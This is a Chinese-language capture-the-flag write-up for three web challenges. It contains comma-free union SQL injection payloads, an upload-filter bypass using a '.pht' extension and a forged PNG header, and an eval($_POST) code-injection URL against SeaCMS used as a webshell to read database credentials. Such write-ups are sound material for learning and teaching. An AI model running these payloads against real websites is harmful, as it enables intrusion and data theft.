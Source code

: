 ## SQLi
F12 发现 `login.php?id=1`，但是这里好像注入不了。

回到前页，发现页面是由 `index.php` 302 跳转来的，因此检查一下对于 `index.php` 的请求的返回头，发现了特殊字段 `page`，得到真正的登陆页面 `l0gin.php?id=1`。

这个 `id` 可以注入，但是存在逗号截断，因此需要在没有逗号的情况下注入，这里很容易想到 `join`。先 `order by` 注入，得到列数为 2。
```
id=1' order by 3%23
```
尝试一下 `join`:
```
id=1'union select * from (select 1)a join (select 2)b%23
```
发现还是正常返回 `1,flag`，因为网页上限制了只能显示一条记录，而 `id=1` 的查询是成功的，因此后面我们 `union` 的结果没有回显出来。因此只需要让 `id=3` 使得查询不到 `username` 即可。

最后正常注入：
```
id=3'union select * from (select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema=database())b%23

id=3'union select * from (select 1)a join (select group_concat(column_name) from information_schema.columns where table_name='users')b%23

id=3'union select * from (select 1)a join (select flag_9c861b688330 from users)b%23
```

## 123
F12 得到 `user.php` 和用户默认密码，下载 `user.php.bak`，打开得到一堆用户名。Intruder 用 `BatteringRam` 模式爆破用户名密码，登陆后 F12 得到：
```html
<!-- 存在漏洞需要去掉  -->
<!-- <form action=""method="POST"enctype="multipart/form-data">
	<input type="file"name="file"/>
	<input type="submit"name="submit"value=" 上传 "/>
</form> -->
```
这里猜测是文件上传漏洞。恢复前端代码后随便选个文件上传，发现只能传图片文件，因此修改 `Content-Type` 和文件内容。`Content-Type` 设置为 `image/png`，文件内容中写入 PNG 文件头 `PNG`。然后将文件名改为 `1.png.php`，但是提示 ` 文件名不能包含 php`。

因此尝试 `1.png.pht` 绕过，得到页面 `view.php`。只有一个提示 `file?`，尝试传入 GET 参数 `file=flag`，得到提示 `filter 'flag'`，于是双写绕过。

## Test
海洋 CMS 很老的漏洞，[漏洞详情](http://0day5.com/archives/4180/)。

直接蚁剑连接 `/search.php?searchtype=5&tid=&area=eval($_POST[1])` 来 getshell。但是没有找到 flag。

到 `/var/www/html/data/common.inc.php` 找到数据库配置：
```php
<?php
// 数据库连接信息
$cfg_dbhost = '127.0.0.1';
$cfg_dbname = 'seacms';
$cfg_dbuser = 'sea_user';
$cfg_dbpwd = '46e06533407e';
$cfg_dbprefix = 'sea_';
$cfg_db_language = 'utf8';
?>
```
在蚁剑中选择 ` 数据操作 `，然后输入上面的配置信息，可以在 `seacms` 数据库的 `flag_140ad2e0d8cb` 表中执行 SQL 语句得到 flag。
